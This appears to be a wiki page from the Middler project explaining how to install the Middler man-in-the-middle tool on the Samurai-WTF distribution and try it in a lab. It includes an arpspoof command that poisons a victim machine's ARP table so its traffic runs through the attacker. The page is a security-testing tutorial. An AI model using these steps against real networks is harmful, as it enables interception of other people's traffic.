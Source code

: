 = (Higher Bandwidth) Getting Set Up Using the Samurai WTF Bootable Linux Distribution =
 # Download the latest copy of Samurai-WTF at samurai.inguardians.com
 # Boot Samurai-WTF from the live CD or from a virtual environment like VMware.
 # Install Middler's dependencies by opening a terminal and running: <br> {{{sudo aptitude install libdumbnet-dev python-libpcap python-beautifulsoup python-scapy}}}
 # Install Middler by running: <br> {{{svn checkout http://middler.googlecode.com/svn/trunk/ middler-read-only}}}
 # Install dsniff so we can spoof ARP tables on victim machines (This functionality will be included in Middler within the next few weeks): <br> {{{sudo aptitude install dsniff}}}
 # Since middler needs to listen on port 80, shut down apache: <br> {{{sudo /etc/init.d/apache2 stop}}}

== Getting Set Up On Your Own Machine == 
# Use the Easy Source Installation instructions from the Installation wiki page.

= Playing with Middler =
 # Move into the Middler's directory: <br> {{{cd middler-read-only}}}
 # Start up Middler with: <br> {{{sudo ./middler.py}}}
 # Choose a victim computer (or start a second VM to pick on)
 # On the machine running Middler, start an arpspoof attack against your victim: <br> {{{arpspoof -i <interface> -t <victim_ip> <gateway_ip>}}}
 # On the victim machine, verify the gateway's MAC address is being spoofed: <br> {{{arp -n}}}
 # On the victim machine, open a browser and surf to www.frog.com